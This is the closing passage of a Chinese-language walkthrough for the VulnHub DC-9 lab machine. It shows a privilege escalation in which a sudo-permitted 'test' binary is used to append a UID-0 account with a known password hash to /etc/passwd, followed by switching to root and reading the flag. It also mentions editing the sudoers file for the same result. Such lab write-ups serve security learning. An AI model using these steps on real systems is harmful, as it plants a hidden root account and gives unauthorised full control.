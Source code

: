 看起来是 test 的源码,功能是添加输入到目标的最后

那么接下来就简单了,直接向 passwd 文件中写用户,或直接向 sudo 配置文件写 ALL 都是可以提权的
```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/22.png)

提权成功,感谢作者 @DCUA7 制作的 DC 系列靶机
